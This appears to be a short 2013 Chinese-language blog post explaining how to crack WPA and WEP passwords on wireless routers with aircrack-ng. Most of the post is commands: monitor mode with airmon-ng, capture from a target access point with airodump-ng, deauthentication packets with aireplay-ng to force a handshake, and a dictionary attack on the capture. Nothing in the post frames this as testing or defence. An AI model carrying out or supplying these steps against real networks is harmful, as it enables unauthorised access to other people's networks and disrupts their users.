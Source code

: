 ```yaml
---
layout: post
title:  "破解无线路由密码"
date:   2013-06-18 16:18:55 +0800
categories: blog
tags:   [linux]
---
```

##破解WPA密码

##准备网络

    ifconfig
    ifconfig eth0 192.168.0.133 netmask 255.255.255.0
    route add default gw 192.168.0.3
    echo 8.8.8.8 >>/etc/resolv.conf
    ping www.163.com

###使用的软件是aircrack-ng:          

    apt-get install aircrack-ng

###过程

    iwconfig
    airmon-ng start wlan0
    airodump-ng mon0   查看网络中的无线AP信息
    airodump-ng mon0 -w ddd -c 11 --bssid 00:1E:88:88:88:88（目标AP的MAC）
           注：如果是WEP加密，抓5000-25000个包，而且不用下面的命令
    aireplay-ng -0 10 -a 00:1E:2A:3D:4C:88 -c BC:77:37:D9:87:C6 mon0  （抓握手包）
           注：破解WPA需要该步
    aircrack-ng -w d.txt ddd*.cap
           注：关键是字典文件，上帝保佑了。。。。。。。。。
               WEP加密：aircrack-ng -z -b 00:1E:88:88:88:88 dddd*.cap


参考：             
[http://linux.cn/thread/10864/1/1/](http://linux.cn/thread/10864/1/1/){:target="_blank"}            
[http://www.backtrack-linux.org/](http://www.backtrack-linux.org/){:target="_blank"}            
[http://www.aircrack-ng.org/doku.php?id=faq#where_can_i_find_good_wordlists](http://www.aircrack-ng.org/doku.php?id=faq#where_can_i_find_good_wordlists){:target="_blank"}